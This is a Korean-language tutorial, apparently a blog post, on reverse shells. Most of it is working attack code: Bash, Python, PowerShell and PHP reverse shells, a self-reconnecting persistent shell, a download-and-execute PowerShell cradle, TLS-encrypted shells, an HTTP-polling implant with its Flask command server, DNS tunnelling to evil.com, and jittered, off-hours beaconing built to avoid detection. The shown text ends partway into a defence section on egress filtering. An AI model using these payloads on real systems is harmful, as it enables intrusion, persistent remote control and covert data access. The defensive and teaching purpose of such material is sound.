


## 리버스 쉘이란?

리버스 쉘(Reverse Shell)은 일반적인 원격 접속의 연결 방향을 역전시킨 공격 기법으로, 침해당한 대상 시스템(Target)이 공격자(Attacker)의 시스템으로 직접 연결을 시도하여 공격자가 대상 시스템의 쉘(Shell)에 접근할 수 있도록 하는 원격 명령 실행 메커니즘이며, 이 기법은 현대 네트워크 보안 아키텍처에서 일반적으로 구축된 방화벽(Firewall)과 NAT(Network Address Translation) 환경의 근본적인 제약사항인 "인바운드 연결 차단, 아웃바운드 연결 허용" 정책을 우회하여 공격자가 제한된 네트워크 내부의 시스템에 접근할 수 있게 한다.

> **교육적 목적과 윤리적 사용**
>
> 이 글은 정보 보안 전문가, 시스템 관리자, 침투 테스터가 리버스 쉘의 작동 원리와 방어 기법을 이해하여 조직의 보안 태세를 강화하기 위한 교육적 목적으로 작성되었다. 모든 기술적 내용은 반드시 명시적인 권한을 부여받은 시스템에서만 테스트해야 하며, 무단으로 타인의 시스템을 침해하거나 공격하는 행위는 형법 제314조(업무방해죄), 정보통신망법 제48조(정보통신망 침해행위 금지) 등 관련 법률에 따라 처벌받을 수 있다.

## 리버스 쉘의 작동 원리와 네트워크 구조

리버스 쉘의 핵심 개념은 전통적인 클라이언트-서버 모델의 역할을 반전시키는 것으로, 일반적인 원격 접속에서는 공격자가 클라이언트 역할을 하여 대상 시스템의 서비스 포트(예: SSH 22번, RDP 3389번)로 접속을 시도하지만, 리버스 쉘에서는 대상 시스템이 클라이언트가 되어 공격자가 운영하는 리스너(Listener) 서버로 능동적으로 연결을 수립하며, 이를 통해 공격자는 방화벽의 아웃바운드 필터링 정책 우회, NAT 환경에서의 접근성 확보, 네트워크 모니터링 솔루션의 탐지 회피 등 다양한 전술적 이점을 얻을 수 있다.

### 리버스 쉘의 단계별 작동 과정

리버스 쉘 공격은 다음과 같은 순차적인 단계를 통해 진행되며, 각 단계는 공격의 성공과 지속성에 중요한 역할을 한다.

**1. 리스너 설정 (Attacker-side Listener Setup)**

공격자는 자신이 제어하는 시스템(공격자 머신 또는 C2 서버)에서 특정 TCP 또는 UDP 포트를 바인딩하여 대상 시스템으로부터의 인입 연결을 대기하는 리스너 프로세스를 실행하며, 이 리스너는 Netcat(nc), Socat, Metasploit의 multi/handler 모듈, 또는 커스텀 소켓 서버 등 다양한 도구로 구현될 수 있고, 일반적으로 HTTP(80), HTTPS(443), DNS(53)와 같이 정상 트래픽으로 위장하기 용이한 포트를 사용하거나, 방화벽에서 차단되지 않는 높은 번호의 포트(예: 4444, 8080)를 선택한다.

```bash
# Netcat을 사용한 기본 리스너 설정 (포트 4444)
nc -lvnp 4444

# -l: 리스닝 모드 (Listen mode)
# -v: 상세 출력 (Verbose output)
# -n: DNS 해석 비활성화 (No DNS resolution)
# -p: 포트 지정 (Port specification)
```

**2. 페이로드 전달 및 실행 (Payload Delivery and Execution)**

공격자는 대상 시스템에서 리버스 쉘 코드를 실행시키기 위해 다양한 초기 침투 벡터(Initial Access Vector)를 활용하며, 이는 웹 애플리케이션 취약점 악용(예: Remote Code Execution, File Upload, Command Injection), 피싱 이메일의 악성 첨부파일, 공급망 공격을 통한 소프트웨어 패키지 변조, 물리적 접근을 통한 USB 악성코드 삽입 등 다양한 경로를 통해 이루어질 수 있고, 페이로드는 대상 시스템의 운영체제와 환경(Linux, Windows, macOS)에 맞게 최적화되어야 하며, 실행 권한 획득과 지속성 확보를 위한 추가 기법이 필요할 수 있다.

**3. 아웃바운드 연결 수립 (Outbound Connection Establishment)**

대상 시스템에서 페이로드가 실행되면 공격자의 리스너 서버로 TCP 또는 UDP 연결을 능동적으로 시도하며, 이 연결은 대상 시스템의 관점에서 아웃바운드(Outbound) 트래픽이므로 대부분의 방화벽 설정에서 기본적으로 허용되고, NAT 환경에서도 NAT 디바이스가 세션 테이블에 아웃바운드 연결을 기록하여 응답 패킷의 라우팅을 자동으로 처리하므로 공격자의 시스템이 공인 IP를 가지지 않더라도 양방향 통신이 가능하며, 연결 수립 과정에서 TCP 3-way handshake가 정상적으로 완료되면 신뢰할 수 있는 스트림 기반 통신 채널이 형성된다.

**4. 표준 입출력 리다이렉션 (Standard I/O Redirection)**

연결이 성공적으로 수립되면 대상 시스템의 쉘 프로세스(예: /bin/bash, /bin/sh, cmd.exe, powershell.exe)의 표준 입력(stdin, file descriptor 0), 표준 출력(stdout, file descriptor 1), 표준 에러(stderr, file descriptor 2)를 소켓 파일 디스크립터로 복제(dup2 시스템 콜)하여 공격자가 전송하는 명령어가 대상 시스템의 쉘로 입력되고, 쉘의 실행 결과가 소켓을 통해 공격자에게 반환되도록 하며, 이를 통해 공격자는 마치 대상 시스템의 터미널에 직접 로그인한 것과 동일한 대화형(Interactive) 쉘 환경을 원격으로 제어할 수 있다.

**5. 대화형 쉘 세션 유지 (Interactive Shell Session Maintenance)**

공격자는 수립된 리버스 쉘 세션을 통해 대상 시스템에서 임의의 명령어를 실행하고, 파일 시스템 탐색, 권한 상승(Privilege Escalation) 시도, 추가 악성코드 다운로드 및 실행, 내부 네트워크 스캔, 민감 데이터 탈취, 로그 삭제를 통한 흔적 제거 등 다양한 사후 침투(Post-Exploitation) 활동을 수행할 수 있으며, 연결이 끊어지더라도 재연결을 시도하는 지속성 메커니즘(Persistence Mechanism)을 구현하여 장기간 접근을 유지할 수 있다.

### 바인드 쉘과의 비교 분석

리버스 쉘과 바인드 쉘(Bind Shell)은 모두 원격 쉘 접근을 목표로 하지만, 연결 방향과 네트워크 제약사항에서 근본적인 차이가 있으며, 현대 네트워크 환경에서는 리버스 쉘이 압도적으로 선호된다.

| 비교 항목 | 바인드 쉘 (Bind Shell) | 리버스 쉘 (Reverse Shell) |
|-----------|------------------------|---------------------------|
| **연결 방향** | 공격자 → 대상 시스템 (Inbound) | 대상 시스템 → 공격자 (Outbound) |
| **포트 개방 위치** | 대상 시스템에서 리스닝 포트 오픈 | 공격자 시스템에서 리스닝 포트 오픈 |
| **방화벽 우회** | 인바운드 필터링에 의해 차단 가능성 높음 | 아웃바운드 허용 정책으로 우회 용이 |
| **NAT 환경** | 포트 포워딩 설정 없이 접근 불가능 | NAT 장비의 세션 테이블 활용으로 접근 가능 |
| **탐지 난이도** | 비정상 포트 오픈으로 쉽게 탐지 (netstat, ss) | 정상 아웃바운드 트래픽으로 위장 가능 |
| **네트워크 가시성** | 대상 시스템의 리스닝 포트 스캔으로 발견 | 능동 스캔으로 발견 불가능 (수동 연결) |
| **사용 사례** | 레거시 시스템, 제한된 환경 | 현대 네트워크, 기업 환경, 클라우드 |



바인드 쉘은 대상 시스템에서 특정 포트(예: 31337, 4444)를 바인딩하고 공격자의 연결을 대기하는 방식으로, 공격자가 `nc <target_ip> <port>` 명령으로 직접 접속하지만, 기업 네트워크의 경계 방화벽(Perimeter Firewall)과 호스트 기반 방화벽(iptables, Windows Firewall)이 인바운드 연결을 기본적으로 차단하므로 실효성이 매우 제한적이며, 또한 NAT 환경에서는 대상 시스템이 사설 IP(Private IP)를 가지므로 공격자가 직접 접근할 수 없고, 포트 스캔(nmap, masscan)으로 비정상적인 리스닝 포트가 쉽게 발견되어 조기 탐지될 위험이 크다.

반면 리버스 쉘은 대상 시스템이 공격자에게 연결을 시도하므로 방화벽의 스테이트풀(Stateful) 패킷 검사가 정상적인 아웃바운드 세션으로 인식하여 허용하며, NAT 환경에서도 NAT 디바이스가 아웃바운드 세션의 변환 테이블을 생성하여 양방향 통신을 지원하고, 공격자는 능동적으로 포트를 스캔할 필요 없이 대상 시스템의 연결을 수동적으로 대기하므로 네트워크 가시성이 낮고, HTTP/HTTPS 트래픽으로 위장하거나 암호화를 적용하면 탐지가 더욱 어려워진다.

## 리버스 쉘 구현 방법론

리버스 쉘은 다양한 프로그래밍 언어, 스크립팅 환경, 네트워크 도구를 활용하여 구현할 수 있으며, 각 방법은 대상 시스템의 운영체제, 설치된 소프트웨어 스택, 네트워크 제약사항, 보안 통제 수준에 따라 선택되고, 공격자는 탐지 회피와 안정성을 고려하여 최적의 페이로드를 선택하거나 다단계(Multi-stage) 페이로드를 조합하여 사용한다.

### Bash 기반 리버스 쉘

Bash는 대부분의 Linux와 Unix 계열 시스템에 기본적으로 설치되어 있는 쉘 환경으로, `/dev/tcp/` 특수 파일 디스크립터를 지원하는 Bash 버전에서는 별도의 네트워크 도구 없이 순수 Bash 스크립트만으로 TCP 소켓 연결을 수립할 수 있으며, 이는 최소한의 의존성으로 빠르게 리버스 쉘을 구현할 수 있는 가장 간결한 방법이다.

**기본 Bash 리버스 쉘 원라이너 (One-liner)**

```bash
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1
```

이 명령어는 다음과 같은 단계로 작동한다.

- `bash -i`: 대화형(Interactive) 모드로 Bash 쉘을 시작하며, `-i` 플래그는 프롬프트를 표시하고 대화형 기능(명령어 히스토리, 탭 완성 등)을 활성화한다.
- `>& /dev/tcp/10.10.10.5/4444`: 표준 출력(stdout, fd 1)과 표준 에러(stderr, fd 2)를 `/dev/tcp/10.10.10.5/4444` 특수 파일로 리다이렉트하며, Bash는 이 경로를 실제 파일이 아닌 TCP 소켓 연결로 해석하여 10.10.10.5의 4444번 포트로 연결을 시도한다.
- `0>&1`: 표준 입력(stdin, fd 0)을 표준 출력이 가리키는 파일 디스크립터(즉, 소켓)로 복제하여 공격자가 전송하는 데이터가 쉘의 입력으로 전달되도록 한다.

**공격자 측 리스너 설정**

```bash
# Netcat 리스너 (전통적 방법)
nc -lvnp 4444

# Ncat 리스너 (Nmap 패키지, 더 많은 옵션)
ncat -lvnp 4444 --ssl  # SSL/TLS 암호화 지원

# Socat 리스너 (고급 소켓 릴레이)
socat TCP-LISTEN:4444,reuseaddr,fork -

# Metasploit multi/handler (자동화된 세션 관리)
msfconsole -q -x "use exploit/multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST 10.10.10.5; set LPORT 4444; exploit"
```

**Bash 리버스 쉘의 장점과 한계**

장점:
- 외부 의존성 없음: Bash만 있으면 즉시 실행 가능하며, 대부분의 Linux/Unix 시스템에서 작동한다.
- 간결성: 한 줄의 명령어로 구현 가능하여 웹 애플리케이션의 Command Injection 취약점 악용 시 URL 인코딩이 용이하다.
- 은밀성: 별도의 파일 생성 없이 메모리에서만 실행되므로 파일 시스템 기반 탐지를 회피할 수 있다.

한계:
- `/dev/tcp/` 미지원 시스템: Ubuntu의 dash, Alpine Linux의 ash 등 일부 경량 쉘은 `/dev/tcp/`를 지원하지 않으며, Bash가 `--enable-net-redirections` 옵션 없이 컴파일되면 작동하지 않는다.
- 불안정한 TTY: 기본 Bash 리버스 쉘은 Pseudo-TTY가 할당되지 않아 `sudo`, `su`, `ssh` 같은 대화형 프로그램 실행 시 오류가 발생하며, Python pty 모듈이나 script 명령으로 업그레이드가 필요하다.
- 평문 통신: 암호화되지 않은 평문 통신으로 네트워크 패킷 캡처 시 명령어와 결과가 노출된다.

### Python 기반 리버스 쉘

Python은 강력한 소켓 프로그래밍 API와 크로스 플랫폼 호환성을 제공하여 안정적이고 기능이 풍부한 리버스 쉘을 구현할 수 있으며, 대부분의 Linux 배포판과 macOS에 기본 설치되어 있고, Windows 서버에서도 데이터 과학 및 자동화 도구로 널리 사용되므로 접근성이 높다.

**기본 Python 리버스 쉘 (Linux/macOS)**

```python
import socket
import subprocess
import os

def reverse_shell(attacker_ip, attacker_port):
    try:
        # TCP 소켓 생성 및 연결
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))

        # 소켓을 표준 입출력 파일 디스크립터로 복제
        os.dup2(s.fileno(), 0)  # stdin
        os.dup2(s.fileno(), 1)  # stdout
        os.dup2(s.fileno(), 2)  # stderr

        # 대화형 쉘 실행
        subprocess.call(["/bin/bash", "-i"])
    except Exception as e:
        # 오류 발생 시 조용히 종료 (탐지 회피)
        pass
    finally:
        s.close()

if __name__ == "__main__":
    reverse_shell("10.10.10.5", 4444)
```

**Windows 환경을 위한 Python 리버스 쉘**

```python
import socket
import subprocess
import os

def windows_reverse_shell(attacker_ip, attacker_port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))

        # Windows에서는 cmd.exe 또는 powershell.exe 사용
        # CREATE_NO_WINDOW 플래그로 창 생성 방지
        subprocess.Popen(
            ["powershell.exe", "-NoProfile", "-ExecutionPolicy", "Bypass"],
            stdin=s.fileno(),
            stdout=s.fileno(),
            stderr=s.fileno(),
            creationflags=subprocess.CREATE_NO_WINDOW
        )
    except:
        pass

if __name__ == "__main__":
    windows_reverse_shell("10.10.10.5", 4444)
```

**재연결 기능이 포함된 지속성 Python 리버스 쉘**

```python
import socket
import subprocess
import os
import time

def persistent_reverse_shell(attacker_ip, attacker_port, retry_interval=60):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((attacker_ip, attacker_port))

            os.dup2(s.fileno(), 0)
            os.dup2(s.fileno(), 1)
            os.dup2(s.fileno(), 2)

            subprocess.call(["/bin/bash", "-i"])
        except:
            # 연결 실패 시 대기 후 재시도
            time.sleep(retry_interval)
        finally:
            try:
                s.close()
            except:
                pass

if __name__ == "__main__":
    persistent_reverse_shell("10.10.10.5", 4444, retry_interval=300)
```

이 버전은 연결이 끊어지거나 실패하더라도 5분(300초) 간격으로 재연결을 시도하여 지속성을 유지하며, 네트워크 불안정성이나 시스템 재부팅 후에도 자동으로 C2 서버와의 연결을 복구한다.

**Python 리버스 쉘의 장점**

- 크로스 플랫폼 호환성: Windows, Linux, macOS에서 동일한 코드 구조로 작동하며, 플랫폼별 쉘 경로만 변경하면 된다.
- 안정성과 기능성: 에러 핸들링, 재연결 로직, 암호화, 멀티스레딩 등 고급 기능을 쉽게 구현할 수 있다.
- 라이브러리 생태계: pycryptodome(암호화), paramiko(SSH), requests(HTTP) 등 다양한 라이브러리를 활용하여 기능을 확장할 수 있다.
- 난독화 용이: PyInstaller로 독립 실행 파일(EXE)로 패키징하고, PyArmor나 Cython으로 코드를 난독화하여 역분석을 어렵게 만들 수 있다.

### PowerShell 기반 리버스 쉘 (Windows)

PowerShell은 Windows 환경에서 가장 강력한 스크립팅 언어이자 관리 도구로, .NET 프레임워크의 전체 기능에 접근할 수 있으며, Windows 7 이후 모든 버전에 기본 설치되어 있고, 원격 관리 도구로 설계되어 네트워크 기능이 풍부하므로 Windows 대상 리버스 쉘에 이상적이다.

**기본 PowerShell 리버스 쉘 원라이너**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.5',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

이 원라이너는 Base64로 인코딩하여 명령줄에서 실행할 수 있다.

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5:8000/shell.ps1')"
```

**Nishang PowerShell 리버스 쉘**

Nishang은 침투 테스트를 위한 PowerShell 스크립트 컬렉션으로, 다양한 리버스 쉘 구현을 제공한다.

```powershell
# Invoke-PowerShellTcp.ps1 from Nishang
function Invoke-PowerShellTcp
{
    param(
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true)]
        [Int]
        $Port
    )

    try
    {
        $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the IP address and port are correct and the server is running."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -IPAddress 10.10.10.5 -Port 4444
```

### PHP 웹 쉘과 리버스 쉘

PHP는 웹 서버 환경에서 널리 사용되므로, 웹 애플리케이션 취약점(File Upload, LFI, RFI)을 악용하여 PHP 리버스 쉘을 업로드하고 웹 브라우저로 실행할 수 있다.

**PentestMonkey PHP 리버스 쉘**

```php
<?php
set_time_limit(0);
$ip = '10.10.10.5';  // Attacker IP
$port = 4444;         // Attacker Port

$sock = fsockopen($ip, $port);
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open('/bin/bash', $descriptorspec, $pipes, null, null);

if (is_resource($process)) {
    fwrite($pipes[0], "cd /tmp\n");
    fclose($pipes[0]);

    while (!feof($pipes[1])) {
        $output = fgets($pipes[1], 1024);
        fwrite($sock, $output);
    }

    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
}

fclose($sock);
?>
```

이 스크립트는 웹 서버의 권한(예: www-data, apache)으로 실행되며, `http://target.com/uploads/shell.php`로 접근하면 리버스 쉘이 활성화된다.

## 탐지 회피 기법 (Evasion Techniques)

기본적인 리버스 쉘은 네트워크 모니터링 도구(IDS/IPS, SIEM), 엔드포인트 탐지 및 응답 솔루션(EDR), 행위 기반 분석(Behavioral Analysis)에 의해 탐지될 수 있으므로, 공격자는 다양한 난독화, 암호화, 프로토콜 터널링 기법을 적용하여 탐지를 회피하고 공격의 은밀성을 높인다.

### 암호화된 통신 채널

평문 리버스 쉘 트래픽은 네트워크 패킷 캡처(Wireshark, tcpdump)와 DPI(Deep Packet Inspection)를 통해 쉽게 분석되므로, TLS/SSL 암호화를 적용하여 통신 내용을 보호하고 정상 HTTPS 트래픽으로 위장할 수 있다.

**OpenSSL 기반 암호화 리버스 쉘**

```bash
# 공격자 측 - SSL/TLS 인증서 생성 및 리스너 설정
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes \
    -subj "/C=US/ST=California/L=San Francisco/O=Example Corp/CN=example.com"

openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 대상 측 - 암호화된 리버스 쉘
mkfifo /tmp/s
/bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.10.5:443 > /tmp/s
rm /tmp/s
```

이 방법은 포트 443(HTTPS)을 사용하여 정상적인 웹 트래픽으로 보이며, OpenSSL의 TLS 암호화로 패킷 내용이 암호화되어 DPI 장비가 쉘 명령어를 검사할 수 없다.

**Socat을 이용한 상호 인증 암호화 리버스 쉘**

Socat은 양방향 데이터 릴레이 도구로, SSL/TLS 암호화와 클라이언트 인증서 검증을 지원하여 더 강력한 보안을 제공한다.

```bash
# 공격자 측 - 서버 인증서 및 클라이언트 인증서 생성
openssl genrsa -out server.key 2048
openssl req -new -key server.key -x509 -days 365 -out server.crt -subj "/CN=C2Server"
openssl genrsa -out client.key 2048
openssl req -new -key client.key -x509 -days 365 -out client.crt -subj "/CN=ImplantClient"

# 공격자 측 - Socat SSL 리스너 (클라이언트 인증서 요구)
socat OPENSSL-LISTEN:443,reuseaddr,cert=server.crt,key=server.key,cafile=client.crt,verify=1 -

# 대상 측 - Socat SSL 리버스 쉘
socat EXEC:'/bin/bash -li',pty,stderr,setsid,sigint,sane \
    OPENSSL-CONNECT:10.10.10.5:443,cert=client.crt,key=client.key,cafile=server.crt,verify=1
```

이 설정은 상호 TLS(Mutual TLS) 인증을 구현하여 공격자와 대상 시스템 모두 인증서를 검증하므로, 네트워크 포렌식 팀이 중간에 트래픽을 가로채더라도 복호화할 수 없고, 잘못된 인증서를 가진 허니팟(Honeypot)이나 탐지 시스템은 연결을 거부당한다.

### HTTP/HTTPS 웹 트래픽 위장

대부분의 기업 네트워크에서 HTTP(80)와 HTTPS(443) 포트는 업무 필수 트래픽으로 간주되어 필터링 없이 허용되므로, 웹 프로토콜을 활용한 리버스 쉘은 높은 성공률과 낮은 탐지율을 보인다.

**HTTP 기반 리버스 쉘 (Polling 방식)**

```python
import requests
import subprocess
import time
import base64

C2_SERVER = "http://10.10.10.5:8080"
POLL_INTERVAL = 5  # 5초마다 명령어 확인

while True:
    try:
        # C2 서버에 명령어 요청
        response = requests.get(f"{C2_SERVER}/cmd", timeout=3)

        if response.status_code == 200 and response.text:
            command = base64.b64decode(response.text).decode()

            # 명령어 실행 및 결과 수집
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=30
            )

            output = result.stdout + result.stderr
            encoded_output = base64.b64encode(output.encode()).decode()

            # 결과를 C2 서버로 전송
            requests.post(
                f"{C2_SERVER}/result",
                data={"output": encoded_output},
                timeout=3
            )
    except:
        pass

    time.sleep(POLL_INTERVAL)
```

이 방식은 대상 시스템이 주기적으로 C2 서버에 HTTP GET 요청을 보내 실행할 명령어를 확인하고, 실행 결과를 HTTP POST 요청으로 전송하며, 정상적인 웹 API 호출과 동일한 패턴을 보이므로 트래픽 분석으로 탐지하기 어렵다.

**C2 서버 측 Flask 구현 예시**

```python
from flask import Flask, request
import base64

app = Flask(__name__)
pending_command = ""
command_results = []

@app.route('/cmd', methods=['GET'])
def get_command():
    global pending_command
    encoded = base64.b64encode(pending_command.encode()).decode()
    pending_command = ""  # 명령어 전송 후 초기화
    return encoded

@app.route('/result', methods=['POST'])
def receive_result():
    output = request.form.get('output', '')
    decoded = base64.b64decode(output).decode()
    command_results.append(decoded)
    print(f"[+] Received result:\n{decoded}")
    return "OK"

@app.route('/admin', methods=['GET', 'POST'])
def admin_panel():
    global pending_command
    if request.method == 'POST':
        pending_command = request.form.get('cmd', '')
        return f"Command queued: {pending_command}"
    return '''
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <input type="submit" value="Send">
    </form>
    '''

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

### DNS 터널링 (DNS Tunneling)

극도로 제한된 네트워크 환경(예: 에어갭 네트워크, 군사 시설, 금융 기관 내부망)에서도 DNS 쿼리는 인터넷 접속의 필수 요소이므로 차단되지 않는 경우가 많으며, DNS 프로토콜의 서브도메인 쿼리와 TXT 레코드 응답을 활용하여 데이터를 은밀하게 전송할 수 있다.

**DNS 터널링의 작동 원리**

1. 공격자는 도메인(예: `evil.com`)을 등록하고 권한 있는 DNS 서버를 운영한다.
2. 대상 시스템은 명령어를 Base32/Base64로 인코딩하여 서브도메인으로 DNS 쿼리를 전송한다.
   - 예: `ls-2Dal.data1.evil.com` (명령어 `ls -al`을 인코딩)
3. 공격자의 DNS 서버는 쿼리를 수신하고, 실행 결과를 TXT 레코드로 인코딩하여 응답한다.
4. 대상 시스템은 TXT 레코드를 디코딩하여 결과를 확인한다.

**dnscat2를 이용한 DNS 터널링**

```bash
# 공격자 측 - dnscat2 서버 실행
ruby dnscat2.rb evil.com

# 대상 측 - dnscat2 클라이언트 실행
./dnscat evil.com
```

dnscat2는 DNS 프로토콜 위에 암호화된 명령 및 제어 채널을 구축하며, 파일 전송, 포트 포워딩, 쉘 세션 등 다양한 기능을 지원한다.

**DNS 터널링의 특징**

- 극한의 은밀성: DNS 트래픽은 일반적으로 모니터링되지 않으며, 정상적인 도메인 조회로 보인다.
- 낮은 대역폭: DNS 쿼리와 응답의 크기 제한으로 전송 속도가 매우 느리다 (평균 1-10 KB/s).
- 높은 지연시간: 각 명령어 전송마다 DNS 해석 과정을 거쳐야 하므로 대화형 쉘로는 부적합하다.
- 탐지 가능 신호: 비정상적으로 긴 서브도메인, 높은 빈도의 TXT 레코드 쿼리, 비표준 문자 인코딩 등이 탐지 신호가 될 수 있다.

### 간헐적 연결 및 시간 기반 회피

지속적인 네트워크 연결은 NetFlow 분석, 비콘(Beaconing) 탐지, 지속 연결 모니터링(Long-lived Connection Detection)에 의해 탐지될 수 있으므로, 간헐적이고 불규칙한 연결 패턴을 사용하여 통계적 이상 탐지(Statistical Anomaly Detection)를 우회할 수 있다.

**지터(Jitter)를 적용한 불규칙 간격 비콘**

```python
import time
import random
import socket
import subprocess

def beaconing_shell(c2_ip, c2_port, base_interval=300, jitter_percent=30):
    """
    base_interval: 기본 대기 시간 (초)
    jitter_percent: 랜덤 변동 비율 (%)
    """
    while True:
        try:
            # 불규칙한 대기 시간 계산
            jitter = base_interval * (jitter_percent / 100.0)
            sleep_time = base_interval + random.uniform(-jitter, jitter)

            time.sleep(sleep_time)

            # C2 서버 연결 시도
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            s.connect((c2_ip, c2_port))

            # 쉘 명령 수신 및 실행
            command = s.recv(4096).decode()
            if command:
                result = subprocess.run(
                    command,
                    shell=True,
                    capture_output=True,
                    text=True,
                    timeout=60
                )
                s.sendall((result.stdout + result.stderr).encode())

            s.close()
        except:
            # 연결 실패는 조용히 무시
            pass

if __name__ == "__main__":
    beaconing_shell("10.10.10.5", 4444, base_interval=600, jitter_percent=40)
```

이 스크립트는 평균 10분(600초) 간격으로 연결하되, ±40% (240초)의 랜덤 변동을 적용하여 6-14분 사이의 불규칙한 간격으로 비콘을 전송하므로, 고정 간격 기반 탐지 알고리즘을 우회할 수 있다.

**업무 시간 기반 활동 제한**

```python
from datetime import datetime

def is_working_hours():
    """업무 시간 외에만 활동 (평일 18:00-09:00, 주말 전체)"""
    now = datetime.now()
    weekday = now.weekday()  # 0=월요일, 6=일요일
    hour = now.hour

    # 주말 (토요일, 일요일)
    if weekday >= 5:
        return True

    # 평일 야간 (18:00-09:00)
    if hour < 9 or hour >= 18:
        return True

    return False

def time_aware_shell(c2_ip, c2_port):
    while True:
        if not is_working_hours():
            # 업무 시간에는 1시간 대기
            time.sleep(3600)
            continue

        # 비업무 시간에만 연결 시도
        try:
            # ... 리버스 쉘 로직 ...
            pass
        except:
            pass

        time.sleep(600)  # 10분 간격
```

이 기법은 보안 관리자가 근무하지 않는 시간대에만 활동하여 실시간 탐지와 대응을 회피하며, 주간 시간대의 네트워크 트래픽 분석에서 이상 징후가 발견되지 않도록 한다.

## 리버스 쉘 방어 전략

리버스 쉘 공격에 대한 효과적인 방어는 네트워크 경계 통제(Perimeter Controls), 호스트 기반 보호(Host-based Protection), 행위 기반 탐지(Behavioral Detection), 사고 대응 프로세스(Incident Response Process)를 통합한 다층 방어(Defense in Depth) 전략을 필요로 하며, 각 방어 계층은 서로 보완적으로 작동하여 공격의 성공 확률을 최소화하고 탐지 및 격리 시간을 단축한다.



### 네트워크 레벨 방어 (Network-Level Defenses)

네트워크 경계에서의 방어는 리버스 쉘 공격의 첫 번째 방어선으로, 아웃바운드 트래픽 제어와 이상 징후 탐지를 통해 공격을 조기에 차단할 수 있다.

**1. 이그레스 필터링 (Egress Filtering)**

대부분의 조직은 인바운드 방화벽 규칙에만 집중하지만, 리버스 쉘 방어를 위해서는 아웃바운드 트래픽에 대한 엄격한 화이트리스트 정책이 필수적이다.

```bash
# iptables 이그레스 필터링 예시 (Linux)
# 기본 정책: 모든 아웃바운드 연결 차단
iptables -P OUTPUT DROP

# 허용할 아웃바운드 연결만 명시적으로 허용
# DNS 서버 (내부 DNS)
iptables -A OUTPUT -p udp -d 192.168.1.10 --dport 53 -j ACCEPT
iptables -A OUTPUT -p tcp -d 192.168.1.10 --dport 53 -j ACCEPT

# HTTP/HTTPS (프록시 서버 경유)
iptables -A OUTPUT -p tcp -d 192.168.1.100 --dport 8080 -j ACCEPT

# NTP 서버 (시간 동기화)
iptables -A OUTPUT -p udp -d 192.168.1.20 --dport 123 -j ACCEPT

# 로깅: 차단된 아웃바운드 연결 기록
iptables -A OUTPUT -j LOG --log-prefix "EGRESS-DROPPED: " --log-level 4
```

Palo Alto, Cisco Firepower, Fortinet FortiGate 등 엔터프라이즈 방화벽에서는 애플리케이션 레이어 제어를 통해 특정 프로토콜과 목적지만 허용하는 세밀한 정책을 수립할 수 있다.

**2. 프록시 서버 강제 경유 (Mandatory Proxy Enforcement)**

모든 웹 트래픽(HTTP/HTTPS)을 프록시 서버를 통해 중계하면 SSL 인터셉션(SSL Inspection)과 URL 필터링을 수행하여 의심스러운 통신을 탐지하고 차단할 수 있다.

Squid 프록시 설정 예시:

```squid
# /etc/squid/squid.conf
# SSL Bump 설정 (HTTPS 검사)
